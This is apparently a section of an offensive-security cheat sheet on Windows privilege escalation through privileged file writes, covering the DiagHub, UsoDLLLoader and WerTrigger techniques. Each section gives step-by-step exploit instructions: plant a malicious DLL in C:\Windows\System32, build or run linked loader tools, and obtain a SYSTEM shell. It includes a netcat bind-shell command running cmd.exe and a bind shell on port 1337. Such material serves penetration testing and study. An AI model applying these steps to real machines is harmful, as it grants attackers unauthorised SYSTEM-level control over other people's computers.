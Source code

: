 
## EoP - Privileged File Write

### DiagHub

:warning: Starting with version 1903 and above, DiagHub can no longer be used to load arbitrary DLLs.

The Microsoft Diagnostics Hub Standard Collector Service (DiagHub) is a service that collects trace information and is programmatically exposed via DCOM. 
This DCOM object can be used to load a DLL into a SYSTEM process, provided that this DLL exists in the `C:\Windows\System32` directory. 

#### Exploit

1. Create an [evil DLL](https://gist.github.com/xct/3949f3f4f178b1f3427fae7686a2a9c0) e.g: payload.dll and move it into `C:\Windows\System32`
2. Build https://github.com/xct/diaghub
3. `diaghub.exe c:\\ProgramData\\ payload.dll`

The default payload will run `C:\Windows\System32\spool\drivers\color\nc.exe -lvp 2000 -e cmd.exe`

Alternative tools:
* https://github.com/Accenture/AARO-Bugs/tree/master/CVE-2020-5825/TrigDiag
* https://github.com/decoder-it/diaghub_exploit


### UsoDLLLoader

:warning: 2020-06-06 Update: this trick no longer works on the latest builds of Windows 10 Insider Preview.

> An alternative to the DiagHub DLL loading "exploit" found by James Forshaw (a.k.a. @tiraniddo)

If we found a privileged file write vulnerability in Windows or in some third-party software, we could copy our own version of `windowscoredeviceinfo.dll` into `C:\Windows\Sytem32\` and then have it loaded by the USO service to get arbitrary code execution as **NT AUTHORITY\System**.

#### Exploit

1. Build https://github.com/itm4n/UsoDllLoader
    * Select Release config and x64 architecure.
    * Build solution.
        * DLL .\x64\Release\WindowsCoreDeviceInfo.dll
        * Loader .\x64\Release\UsoDllLoader.exe.
2. Copy `WindowsCoreDeviceInfo.dll` to `C:\Windows\System32\`
3. Use the loader and wait for the shell or run `usoclient StartInteractiveScan` and connect to the bind shell on port 1337.


### WerTrigger

> Weaponizing for privileged file writes bugs with Windows problem reporting

1. Clone https://github.com/sailay1996/WerTrigger
2. Copy `phoneinfo.dll` to `C:\Windows\System32\`
3. Place `Report.wer` file and `WerTrigger.exe` in a same directory.
4. Then, run `WerTrigger.exe`.
5. Enjoy a shell as **NT AUTHORITY\SYSTEM**
